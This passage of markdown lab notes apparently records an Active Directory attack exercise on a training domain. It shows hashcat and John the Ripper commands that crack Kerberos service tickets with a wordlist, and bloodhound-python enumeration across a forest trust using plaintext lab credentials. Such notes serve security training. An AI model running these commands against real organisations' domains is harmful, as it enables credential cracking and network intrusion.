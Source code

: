 #### **Hash Cracking**
```bash
# Crack TGS tickets using Hashcat
hashcat -m 13100 cross_forest_tgs.txt /usr/share/wordlists/rockyou.txt

# Alternative with John the Ripper
john --format=krb5tgs cross_forest_tgs.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

---

## 🔍 **Foreign Group Membership Discovery**

### **bloodhound-python Multi-Domain Collection**

#### **DNS Configuration Requirements**
```bash
# Edit /etc/resolv.conf for target domain resolution
sudo nano /etc/resolv.conf

# Configuration for INLANEFREIGHT.LOCAL:
#nameserver 1.1.1.1
#nameserver 8.8.8.8
domain INLANEFREIGHT.LOCAL
nameserver 172.16.5.5
```

#### **Data Collection Process**

##### **Primary Domain Collection**
```bash
# Collect BloodHound data from primary domain
bloodhound-python -d INLANEFREIGHT.LOCAL -dc ACADEMY-EA-DC01 -c All -u forend -p Klmcargo2

# Expected output:
INFO: Found AD domain: inlanefreight.local
INFO: Found 2 domains in the forest
INFO: Found 559 computers
INFO: Found 2950 users
INFO: Found 183 groups
INFO: Found 2 trusts
```

##### **Trusted Domain Collection**
```bash
# Update DNS for trusted domain
sudo nano /etc/resolv.conf
# Change to:
domain FREIGHTLOGISTICS.LOCAL
nameserver 172.16.5.238

# Collect data from trusted domain
bloodhound-python -d FREIGHTLOGISTICS.LOCAL -dc ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -c All -u forend@inlanefreight.local -p Klmcargo2
```
